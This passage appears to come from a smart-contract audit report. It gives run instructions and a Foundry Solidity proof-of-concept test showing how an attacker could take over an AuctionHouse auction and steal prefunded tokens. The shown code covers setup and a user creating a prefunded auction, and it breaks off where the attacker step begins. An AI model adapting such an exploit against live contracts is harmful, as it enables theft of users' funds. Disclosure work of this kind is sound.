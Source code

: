 To run the POC just create a file `AuctionHouseTest.t.sol` somewhere under the `./moonraker/test` directory, add `src=/src/` to **remappings.txt** and run it using `forge test --match-test test_overtake_auction_and_steal_prefunded_funds`.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

// Libraries
import {Test} from "forge-std/Test.sol";
import {ERC20} from 'solmate/tokens/ERC20.sol';

import 'src/modules/Modules.sol';
import {Auction} from 'src/modules/Auction.sol';

import {AuctionHouse} from 'src/AuctionHouse.sol';
import {FixedPriceAuctionModule} from 'src/modules/auctions/FPAM.sol';

contract AuctionHouseTest is Test {
  AuctionHouse public auctionHouse;
  FixedPriceAuctionModule public fixedPriceAuctionModule;

  address public OWNER = makeAddr('Owner');
  address public PROTOCOL = makeAddr('Protocol');
  address public PERMIT2 = makeAddr('Permit 2');

  MockERC20 public baseToken = new MockERC20("Base", "BASE", 18);
  MockERC20 public quoteToken = new MockERC20("Quote", "QUOTE", 18);

  function setUp() public {
    vm.warp(1710965574);
    auctionHouse = new AuctionHouse(OWNER, PROTOCOL, PERMIT2);
    fixedPriceAuctionModule = new FixedPriceAuctionModule(address(auctionHouse));

    vm.prank(OWNER);
    auctionHouse.installModule(fixedPriceAuctionModule);
  }

  function test_overtake_auction_and_steal_prefunded_funds() public {
    // Step 1
    uint256 PREFUNDED_AMOUNT = 1_000e18;
    address USER = makeAddr('User');
    vm.startPrank(USER);
    baseToken.mint(PREFUNDED_AMOUNT);
    baseToken.approve(address(auctionHouse), PREFUNDED_AMOUNT);

    AuctionHouse.RoutingParams memory routingParams;
    routingParams.auctionType = keycodeFromVeecode(fixedPriceAuctionModule.VEECODE());
    routingParams.baseToken = baseToken;
    routingParams.quoteToken = quoteToken;
    routingParams.prefunded = true;

    Auction.AuctionParams memory auctionParams;
    auctionParams.start = uint48(block.timestamp + 1 weeks);
    auctionParams.duration = 5 days;
    auctionParams.capacity = uint96(PREFUNDED_AMOUNT);
    auctionParams.implParams =
      abi.encode(FixedPriceAuctionModule.FixedPriceParams({price: 1e18, maxPayoutPercent: 100_000}));

    auctionHouse.auction(routingParams, auctionParams, "");

    // Step 2
    address ATTACKER = makeAddr('Attacker');
```